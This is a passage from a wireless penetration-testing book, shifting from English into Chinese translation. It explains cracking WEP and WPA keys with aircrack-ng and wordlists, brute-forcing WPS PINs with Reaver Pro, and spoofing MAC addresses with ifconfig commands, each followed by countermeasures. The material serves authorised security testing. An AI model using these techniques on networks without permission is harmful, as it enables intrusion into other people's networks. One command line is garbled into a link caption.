

FIGURE 10-5:  Using airodump to capture WEP initialization vectors.



FIGURE 10-6:  Using aircrack to crack WEP.

airodump and aircrack are simple to run in Windows. Download and extract the aircrack programs, the cygwin Linux simulation environment, and the supporting peek files from [`https://aircrack-ng.org`](https://aircrack-ng.org), and you’re ready to capture packets and crack away!


更长的密钥长度，例如 128 位或 192 位，并不会使 WEP 按指数级更难破解，因为 WEP 的静态密钥调度算法只需捕获大约 20,000 个额外数据包即可破解每增加一位的密钥长度。

无线行业推出了解决 WEP 问题的方案，称为 Wi‑Fi Protected Access（WPA）。WPA 使用 Temporal Key Integrity Protocol（TKIP）加密系统，它修复了所有已知的 WEP 问题。WPA2 迅速取代了原始 WPA，采用更强大的加密方式——Counter Mode Cipher Block Chaining Message Authentication Code Protocol（快速说三遍），即 CCMP，基于高级加密标准（AES）。WPA3 正在进入 2018 年第三季度后制造的设备中，敬请留意。

另一件值得注意的事：WPA 和 WPA2 在“企业模式”下运行时需要 802.1*x* 认证服务器（如 RADIUS 服务器）来管理网络用户账户。采用此类配置的无线网络难以破解，因此您的测试工作最好集中在网络的其他部分。

对于非企业无线接入点（这也是我大多数看到的商业场景），没有理由不使用 WPA2 并配合预共享密钥（PSK）。

您也可以使用 aircrack 破解 WPA 和 WPA2‑PSK。要破解 WPA‑PSK 加密，需要等待无线客户端与接入点进行认证。快速且笨拙的方法是向广播地址发送一个 deauthenticate 包，以强制认证过程重新进行。Peter T. Davis 和我在第《Hacking Wireless Networks For Dummies》（John Wiley & Sons, Inc.）一书中详细阐述了此话题。

您可以使用 airodump 捕获数据包，然后启动 aircrack（或同时运行两者）以使用以下命令行选项开始破解 PSK：

`#aircrack-ng -a2 -w path_to_wordlist &lt;capture file(s)>`

WPA 密钥恢复依赖于良好的字典。可在 [`www.outpost9.com/files/WordLists.html`](http://www.outpost9.com/files/WordLists.html) 下载的字典文件是一个不错的起点。即使使用包含大量潜在密码的强大字典，我仍常发现字典攻击对 WPA 无效。了解自己的限制，以免浪费时间尝试破解不可破解的 WPA PSK。

另一个商业替代方案是 ElcomSoft Wireless Security Auditor（EWSA）。使用 EWSA 只需捕获 tcpdump 格式的无线数据包（所有无线分析仪都支持该格式），将捕获文件加载到程序中，随后即可获得 PSK。EWSA 的不同之处在于它可以在极短的时间内破解 WPA 和 WPA2 PSK，但有一个前提：您必须拥有支持的 NVIDIA 或 AMD 显卡。是的，EWSA 不仅利用 CPU 处理能力，还利用显卡 GPU 的强大加速能力。这真是创新！

EWSA 的主界面如下图所示 Figure 10-7。



 FIGURE 10-7:  使用 ElcomSoft Wireless Security Auditor 破解 WPA PSK。

使用 EWSA，您可以以每秒最高 173,000 个 WPA/WPA2 PSK 的速度尝试破解。与仅用 CPU 仅能破解几百个密钥/秒相比，这款工具的价值显而易见。我总说，你得到的是你所付出的！

如果您需要在安全评估中使用网络分析仪查看流量，且 WEP 或 WPA/WPA2 已启用，除非您了解每个网络对应的密钥，否则将看不到任何流量。您可以手动输入每个密钥，但如果黑客能够利用前述工具破解您的 WEP 或 WPA PSK，他们同样可以看到流量。

Figure 10-8 展示了如何在 Omnipeek 中输入 WPA 密钥（在 Capture Options 窗口中）以在开始捕获数据包前查看 WLAN 协议。这使得您能够查看加密的无线流量。



 FIGURE 10-8:  使用 Omnipeek 查看加密的无线流量。

### 对加密流量攻击的防范措施

针对 WEP 问题的最简方案是将所有无线通信迁移至 WPA2。您也可以在 Windows 环境中启用点对点隧道协议（PPTP）来免费使用虚拟专用网络（VPN），或利用 Windows 内置的 IPSec 支持、安全壳（SSH）以及安全套接层/传输层安全（SSL/TLS）等其他专有解决方案来保护流量。请注意，针对 PPTP、IPSec 等 VPN 协议的破解工具也已存在，但相较于完全没有 VPN，整体安全性仍然较高。

此外，802.11i 标准（IEEE）整合了 WPA 的修复及更多改进。该标准在 WPA2 中采用高级加密标准（AES）进行加密，但由于实现方式的差异，它不兼容较旧的 802.11b 硬件。

如果您使用 WPA2 并配合 PSK（这已足够满足小型 Wi‑Fi 的需求），请确保密钥至少包含 20 个随机字符，以免受到 Aircrack‑ng 和 ElcomSoft Wireless Security Auditor 等工具的离线字典攻击。ElcomSoft Wireless Security Auditor 的攻击设置如图 Figure 10-9 所示。



 FIGURE 10-9:  ElcomSoft Wireless Security Auditor 的众多密码破解选项。

如图所示，从单纯的字典攻击到组合攻击，再到使用特定单词规则的混合攻击，均可供选择。请使用长度充足且随机的 PSK，以免成为拥有大量时间的人的攻击目标！

请记住，尽管 WEP 和弱 WPA PSK 可以被破解，但它们仍然优于没有任何加密。正如家庭安防系统的标识对潜在入侵者产生的威慑效果，运行 WEP 或弱 WPA PSK 的无线网络对黑客来说并不那么具吸引力；很多入侵者会转向更容易的目标，除非他们真的想攻击您的网络。

### Wi‑Fi Protected Setup


Wi‑Fi Protected Setup（WPS）是一种无线标准，可实现对安全无线接入点（AP）的简单连接。WPS 的缺点在于其注册 PIN 的实现会让人轻松连接到无线网络，从而便于对使用 WPA/WPA2 PSK 锁定整个系统的攻击。正如我们多年来在安全方面所看到的，一切都是一种权衡。

WPS 设计用于家庭无线网络的消费者使用。如果你的无线环境像我所看到的大多数情况，它很可能包含消费级无线接入点（路由器），这些设备易受此攻击。

WPS 攻击相对简单，使用较老的开源工具 Reaver（[`https://code.google.com/p/reaver-wps`](https://code.google.com/p/reaver-wps)）即可。Reaver 通过对 WPS PIN 进行暴力破解来工作。我使用的是商业版 Reaver Pro（[`www.reaversystems.com`](http://www.reaversystems.com)），在公司停止销售前我已经获得了它。你可以通过以太网或 USB 将测试系统连接到 Reaver Pro。如图 10-10 所示，Reaver Pro 的界面非常直观。



FIGURE 10-10:  Reaver Pro 启动窗口。

假设你能在 Amazon 或 eBay 找到它，使用 Reaver Pro 很简单。你只需按照以下步骤操作：

1. **通过将测试系统插入 PoE LAN 网络连接，将其与 Reaver Pro 设备相连。**

   你会通过 DHCP 从 Reaver Pro 设备获取 IP 地址。

2. **打开浏览器，访问 http://10.9.8.1，并使用 reaver/foo 作为用户名和密码登录。**

3. **在主界面，点击菜单按钮。**

   将出现无线网络列表。

4. **在列表中选择你的无线网络，然后点击“分析”。**

5. **让 Reaver Pro 运行并完成其任务。**

   如图 10-11 所示，这是整个过程。



FIGURE 10-11:  使用 Reaver Pro 确认 Wi‑Fi Protected Setup 已启用。

如果你想让 Reaver Pro 自动破解 WPS PIN，请点击“配置”并将 WPS PIN 设置打开。WPS PIN 破解可能需要几分钟到几小时，但如果成功，Reaver Pro 将返回 WPA PSK，或提示无线网络距离太远或启用了入侵锁定。

我对 Reaver Pro 的使用结果参差不齐，取决于运行它的电脑以及被测试的无线 AP。不过，如果你想找出并修复无线安全漏洞，它仍然是值得尝试的攻击手段。

### 针对 WPS PIN 漏洞的防范措施

这一安全修复极为直接：禁用 WPS。如果必须保留 WPS，至少在 AP 上配置 MAC 地址控制。虽然此防护并非万无一失，但已好于无防护！更新的消费级无线路由器也为 WPS PIN 提供了入侵锁定功能。当系统检测到 WPS PIN 破解尝试时，会在一定时间内锁定这些尝试，这是一种很好的保护措施。在企业环境中防止 WPS 攻击的最佳做法是根本不要使用低端无线路由器。

### rogue（隐蔽）无线设备

请警惕未经授权的 AP 以及已连接到你网络的未经授权的无线客户端，这些都是让攻击者社交工程诱导用户连接到恶意网络/系统的常见手段。

此外，请确保教育用户在办公室外安全使用 Wi‑Fi。向他们传达连接未知 Wi‑Fi 的危害，并定期、持续地提醒他们。否则，他们的系统可能被入侵或感染恶意软件，当他们再次连接到你的网络时，问题就归他们。

通过 NetStumbler 或客户端管理软件，你可以检测出不属于你网络的 AP 和自组网（peer‑to‑peer）设备。你也可以使用无线网络分析工具（如 Omnipeek、CommView for WiFi）的网络监控功能。

请寻找以下 rogue AP 的特征：

*   **异常 SSID**，包括流行的默认 SSID，如 `linksys`、`free public wifi`。

*   **不在你网络中的 MAC 地址**。查看 MAC 地址的前三字节（前六位数字），它们指示设备厂商。你可以在 [`http://standards.ieee.org/develop/regauth/oui/public.html`](http://standards.ieee.org/develop/regauth/oui/public.html) 进行 MAC 地址厂商查找，以获取不确定的 AP 信息。

*   **弱无线信号**，这可能表明 AP 被隐藏或位于建筑内部或外部。

*   **与你网络通信的无线信道不同**，即使用了与网络主要信道不同的信道。

*   **Wi‑Fi 客户端的吞吐量下降**，这可能是隐蔽 AP 的迹象。

在图 10-12 中，NetStumbler 发现了两个潜在的未经授权 AP。最显眼的是 SSID 为 `BI` 和 `LarsWorld` 的两个，它们分别运行在不同信道、不同速率上，并且由不同的硬件厂商制造。如果你知道你的无线网络应运行什么（你当然知道），未经授权的系统就会显而易见。



FIGURE 10-12:  NetStumbler 显示潜在的未经授权 AP。

NetStumbler 有一项局限性：它无法检测到将 SSID 广播（probe response）关闭的 AP。像 CommView for WiFi 这类商业无线分析工具以及开源工具 Kismet 不仅会检测到 AP 的探测响应（如 NetStumbler 所做），还会捕获其他 802.11 管理帧，如关联响应和 beacon。这些管理帧使得 Kismet 能够发现隐藏的 Wi‑Fi。

如果 Linux 环境不是你喜欢的，且你仍想快速简便地查找隐藏 AP，可以创建客户端到 AP 的重新连接场景，使用去认证（deauthentication）包迫使 SSID 广播。详细步骤请参考我与同事 Peter T. Davis 合著的《Hacking Wireless Networks For Dummies》（Wiley）一书。

最安全、最可靠的查找隐藏 AP 的方法是搜索 802.11 管理帧。你可以在像 Omnipeek 这样的无线分析工具中配置捕获过滤器，只捕获 802.11 管理帧，如图 10-13 所示。



FIGURE 10-13:  你可以在 Omnipeek 中配置捕获过滤器，以检测不广播 SSID 的 AP。

图 10-14 显示如何使用 CommView for WiFi 发现异常网络主机。在图 10-14 中，Technico 和 Netgear 系统出现在列表中，但该网络仅使用 Ubiquiti 硬件。



FIGURE 10-14:  使用 CommView for WiFi 发现不属于该网络的无线系统。

我的测试网络相对较小，但足以说明“异常系统”如何脱颖而出。


Wi‑Fi 以 ad‑hoc（或点对点）模式进行设置，使无线客户端可以直接相互通信，而无需经过接入点 (AP)。此类 Wi‑Fi 规避了常规的无线安全控制，可能导致超出 802.11 标准漏洞的严重安全问题。

你可以使用几乎任何无线网络分析器来查找网络上未经授权的 ad‑hoc 设备。如果发现网络中有大量 ad‑hoc 系统，例如在 CommView for WiFi 的 Type 列中显示为 STA（即 *station*）的设备（见 Figure 10-15），则说明有人在运行未受保护的无线系统，或至少已启用了 ad‑hoc 无线。这些系统通常是打印机等看似无害的网络设备，但也可能是工作站、移动设备或日益增长的物联网 (IoT) 组件。无论如何，它们都可能对你的网络和信息构成风险，值得检查。



FIGURE 10-15:  CommView for WiFi 显示多个未经授权的 ad‑hoc 客户端。

你也可以使用手持式数字热点探测器（如本章前文“Choosing Your Tools”中提到的）来搜寻 ad‑hoc 启用的系统，或使用无线入侵防御系统搜寻 ESS 字段不等于 1 的信标帧。

步行到建筑物或校园（即 *warwalk*，若有此称）进行此测试，看看能发现什么。实地寻找不属于该环境的设备，并记住，位置恰当的 AP 或已关闭的 Wi‑Fi 客户端在网络分析工具中不会出现。请在建筑物外围或任何公共可进入区域附近进行搜索。检查会议室和高层管理人员的办公室，看是否有未经授权的设备。这些地方虽然可能受限制，但正因如此才需要检查是否存在 rogue AP。

在查找网络中的未经授权无线设备时，请记住你可能会捕获到邻近办公室或家庭的信号。因此，如果你发现了某个设备，不要立即认定它是 rogue 设备。判断该设备是否位于附近办公室或家庭的一种方法是检查检测到的信号强度。位于办公室外的设备 *应该* 信号比在办公室内的设备更弱。使用无线网络分析器以此方式可以缩小位置范围，避免因检测到合法的邻居无线设备而产生误报。

了解你的网络环境很有价值。知道周围应有什么样的情况，能更容易发现潜在问题。

判断你发现的 AP 是否已连接到有线网络的一个好方法是执行反向 ARP（RARP），将 IP 地址映射到 MAC 地址。你可以在命令行中使用 `arp -a` 命令并将 IP 地址与对应的 MAC 地址进行比对，看是否有匹配。

另外要记住，Wi‑Fi 认证的是无线设备而非用户。黑客可以利用这一点，通过远程访问软件（如 Telnet 或 SSH）或利用已知的应用程序或操作系统漏洞，获得对无线客户端的访问，进而可能获得对整个网络的完整控制，而你可能仍不知情。

### 防范恶意无线设备的措施

检测网络中恶意 AP 和无线主机的唯一方法是主动（实时）监控你的无线网络，寻找表明存在无线客户端或恶意 AP 的指标。无线入侵防御系统非常适合此类监控。但如果恶意 AP 或客户端未被检测到，并不意味着你安全无虞。你可能还需要使用无线网络分析器或其他网络管理应用进行检查。

在所有无线主机上使用个人防火墙软件（如 Windows 防火墙），以防止未经授权的远程访问，进而保护你的网络。

最后，别忘了用户教育。虽然教育并非万能，但它可以提供额外的防御层。确保安全始终在每个人的注意之首。Chapter 19 包含关于用户认知与培训的更多信息。

### MAC 地址伪装

无线网络的常见防护措施是 MAC 地址控制。该控制方式要求 AP 仅允许已知 MAC 地址的无线客户端连接。因此，MAC 地址伪装是针对无线网络的常见攻击手段。

不法分子可以轻松在 Linux 中使用 `ifconfig` 命令，在 Windows 中使用 SMAC 实用程序来伪装 MAC 地址，如我在 Chapter 9 中所述。与 WEP 和 WPA 类似，基于 MAC 地址的访问控制只是一种附加的保护层，好过于没有保护。如果有人伪装了你的 MAC 地址，唯一能够发现恶意行为的方法是通过上下文感知——即在无线局域网中发现同一 MAC 地址在多个位置被使用，这往往很棘手。

判断 AP 是否启用了 MAC 地址控制的简单方法是尝试与其关联并通过 DHCP 获取 IP 地址。如果你能够获取 IP 地址，则说明该 AP 未启用 MAC 地址控制。

下面的步骤说明如何测试 MAC 地址控制以及它们有多容易被绕过：

1. **找到要连接的 AP。**

   你可以直接加载 NetStumbler，如 Figure 10-16 所示。

   在本测试网络中，SSID 为 *doh!* 的 AP 是我要测试的目标。请记录该 AP 的 MAC 地址。该地址将帮助你在后续步骤中确认正确的数据包。虽然为了隐私，我已隐藏大部分 MAC 地址，假设该 AP 的 MAC 地址是 `00:40:96:FF:FF:FF`。同时，Figure 10-16 中 NetStumbler 能够确定该 AP 的 IP 地址。获得 IP 地址有助于确认你正在正确的无线网络上。

2. **使用无线局域网分析器，查找无线客户端发送的探测请求帧（发送到广播地址）或 AP 回复的探测响应帧。**

   你可以在分析器中设置过滤器以捕获此类帧，或捕获数据包后浏览，寻找你在第一步记录的 AP MAC 地址。Figure 10-17 展示了探测请求和探测响应帧的样子。

   注意：为隐私起见，假设无线客户端的完整 MAC 地址是 `00:09:5B:FF:FF:FF`，它首先在第 98 号数据包中向广播地址 `FF:FF:FF:FF:FF:FF` 发送探测请求。AP（MAC 地址为我所关注的）随后向 `00:09:5B:FF:FF:FF` 发送探测响应，确认这是网络上正在测试 MAC 地址控制的客户端。

3. **将你的测试计算机的 MAC 地址更改为步骤 2 中发现的无线客户端的 MAC 地址。**

   在 Unix 和 Linux 系统中，可以通过 `ifconfig` 命令轻松更改 MAC 地址，方法如下：

   1. *以 root 登录并禁用网络接口。*

      插入你想要禁用的网络接口编号（通常为 `wlan0` 或 `ath0`），例如：

      `[root@localhost root]# ifconfig wlan0 down`

   2. *输入新的伪造 MAC 地址和接口编号。*

      例如：

      `[root@localhost root]# ifconfig wlan0 hw ether 01:23:45:67:89:ab`

      以下命令在 Linux 中同样有效：


-   [将接口 wlan0 的 MAC 地址设置为 01:23:45:67:89:ab](https://github.com/alobbs/macchanger)

3. *使用以下命令将接口重新启用：*

`[root@localhost root]# ifconfig wlan0 up`

如果你经常更改 Linux 的 MAC 地址，可以使用功能更丰富的实用程序 GNU MAC Changer ([`https://github.com/alobbs/macchanger`](https://github.com/alobbs/macchanger))。

较新版本的 Windows 使更改 MAC 地址变得困难。你可以在无线网卡属性中通过控制面板更改 MAC 地址。如果你不喜欢以这种方式修改操作系统（或者无法做到），你可以使用 KLC Consulting 公司创建的简便且廉价的工具 SMAC（可在 [`www.klcconsulting.net/smac`](http://www.klcconsulting.net/smac)）进行更改。要更改 MAC 地址，请按照我在 第 9 章 中列出的步骤操作。

完成后，SMAC 会显示类似下图所示的界面（Figure 10-18）。

要逆转之前的任何 MAC 地址更改，请逆转已执行的步骤，然后删除你创建的任何数据。

请注意，AP、路由器、交换机等设备可能会在网络中检测到多个系统使用相同的 MAC 地址（即你的系统和你正在伪装的主机）。你可能需要等到该系统不再在网络中时才能继续。不过，我很少遇到这种方式下伪装 MAC 地址出现问题，所以你大概不需要做什么。

4. **确保你已连接到正确的 SSID。**

即使你的网络使用 WEP 或 WPA，你仍然可以测试 MAC 地址控制。你只需要在连接前输入加密密钥即可。

5. **在网络中获取 IP 地址。**

你可以重新启动或禁用/启用无线网卡，在 Windows 命令提示符中运行 `ipconfig /renew`，或在无线网卡的网络属性中输入已知的 IP 地址。

6. **通过 ping 其他主机或浏览 Internet 确认你已在网络中。**

在此示例中，我可以 ping AP（10.11.12.154）或直接打开我喜欢的浏览器查看是否可以访问 Internet。



FIGURE 10-16:  通过 NetStumbler 找到可访问的 AP。



FIGURE 10-17:  在被测试网络上查找无线客户端的 MAC 地址。



FIGURE 10-18:  SMAC 显示伪装的 MAC 地址。

这就完成了。你通过六个简单步骤绕过了无线网络的 MAC 地址控制。很简单！

### 对 MAC 伪装的防范措施

防止绕过 MAC 地址控制并未经授权连接到你的无线网络的最简便方法是启用 WPA2 或即将推出的 WPA3。另一种防范 MAC 伪装的方法是使用无线入侵防御系统。第二种选择显然更昂贵，但当你考虑到该系统所提供的其他主动监控和阻断益处时，它可能是值得投资的。

### 物理安全问题

各种物理安全漏洞可能导致物理盗窃、无线设备重新配置以及机密信息被捕获。在测试系统时，你应查找以下安全漏洞：

*   将 AP 安装在建筑外部且对公众可访问的位置。

*   安装不当的天线 —  — 或使用不正确类型的天线 —  — 导致信号过强且对公众可访问。你可以在 NetStumbler、无线客户端管理器或我在本章早些时候提到的商业工具中查看信号强度。

相关的无线漏洞是：先连接到客户端或测试无线网络，然后尝试进入生产环境。我在许多组织中看到了这个漏洞。常见的解决办法包括将无线网络与其他网络物理隔离，使用单独的 Internet 连接，或在客户端无线网络上配置一个唯一的网络段。

由于安装匆忙、规划不当以及缺乏技术知识，这些问题常被忽视，但它们可能会反噬你。书籍 *Wireless Networks For Dummies* (Wiley) 提供更多细节。

### 对物理安全问题的防范措施

确保将 AP、天线和其他无线及网络基础设施设备锁在安全的储物柜、天花板或其他难以被潜在入侵者物理访问的地方。将 AP 安装在防火墙或其他网络边界安全设备之外（或至少在非军事区 DMZ）的最佳位置。如果你在安全网络内放置未受保护的无线设备，将会抵消你从防火墙等边界安全设备获得的任何好处。

如果无线信号在建筑外传播到不该去的地方，请执行以下操作之一：

*   降低 AP 的传输功率设置。

*   使用更小或不同类型的天线（半向射或定向）来减弱信号。

一些基本的规划有助于防止这些漏洞。

### 弱点 —  — 无线工作站

无线工作站（如基于 Windows 的笔记本电脑）可能存在众多安全漏洞，从弱密码到未打补丁的安全漏洞，再到本地存储的 WEP 和 WPA 加密密钥。虽然大多数知名的无线客户端漏洞已由其供应商修复，但你永远无法确定所有无线系统是否都在运行最新（通常也是最安全）的操作系统、无线客户端软件以及其他软件应用。

除了使用无线客户端、嗅探和网络分析软件（我在本章早些时候提到的那些），你还应通过执行各种漏洞测试工具的认证扫描（如 GFI LanGuard、Nexpose 和 Acunetix Web Vulnerability Scanner）来查找无线客户端漏洞。

这些程序虽非专门针对无线，但可能会发现你的无线工作站中那些你可能未曾注意或考虑测试的漏洞。我在本书的 第 4 部分 和 第 5 部分 中详细介绍了操作系统和应用程序漏洞以及使用上述工具的方法。

### 对弱点 —  — 无线工作站的防范措施

你可以实施以下防范措施，防止工作站成为进入无线网络的入口点：

*   定期对你的无线工作站（以及其他网络主机）进行漏洞评估。

*   及时应用供应商的最新安全补丁，并强制要求用户使用强密码。

*   在可能的情况下，在所有无线系统（包括手机和平板）上使用个人防火墙（如 Windows 防火墙）和端点安全软件，以阻止恶意入侵者进入系统并跨网络。

*   安装防病毒软件。

### 默认配置设置


-   与无线工作站类似，无线接入点和路由器也有许多已知的漏洞。最常见的有默认 SSID 和管理员密码。更具体的情况只出现在某些硬件和软件版本上，这些版本会在漏洞数据库和供应商网站中发布。一些无线系统默认就禁用了 WPA/WPA2，或者它们是通过诚实的疏忽设置的，从未得到正确的保护。

### 针对默认配置设置漏洞的防范措施

你可以实施一些最简单且最有效的 Wi‑Fi 安全防范措施，而且全部免费：

*   确保更改默认管理员密码和 SSID。

*   至少启用 WPA2。使用至少 20 个随机字符的强 PSK，或在企业模式下使用 WPA/WPA2 并通过 RADIUS 服务器进行主机身份验证。

*   如果不需要该功能，请禁用 SSID 广播。

*   为你的接入点和 Wi‑Fi 卡安装最新的固件补丁。此防范措施有助于防止利用公开已知的管理接口漏洞以及客户端管理软件漏洞。

第 11 章

## 移动设备

## 本章内容

`执行安全测试以发现关键移动缺陷`

`探索物联网（IoT）相关的安全漏洞`

`降低移动安全风险`

移动计算既受到企业欢迎，也受到黑客青睐。似乎每个人都有一种或多种个人或业务用途的移动设备（通常两者兼具）。如果未正确保护，移动设备接入企业网络会形成成千上万个受控之外的信息孤岛，信息不受控制、难以管理。

由于手机、平板和笔记本电脑运行多种操作系统（OS）平台，并装载大量应用，移动计算面临无数风险。本章不深入探讨所有变量，而是重点介绍可能影响你和你业务的几大常见移动安全缺陷。

## 评估移动漏洞

花时间找出并修复网络上的“低垂果实”能够获得性价比最高的回报。以下移动笔记本电脑、手机和平板的弱点应当放在优先位置：

*   无加密

*   加密实现不当

*   无开机密码

*   开机密码易被猜测或破解

对于其他技术和系统（如 Web 应用、操作系统等），通常可以直接找到相应的测试工具。但针对移动相关缺陷的安全测试工具相对较少。相应地，最昂贵的工具能够以最少的麻烦发现主要缺陷。

## 破解笔记本电脑密码

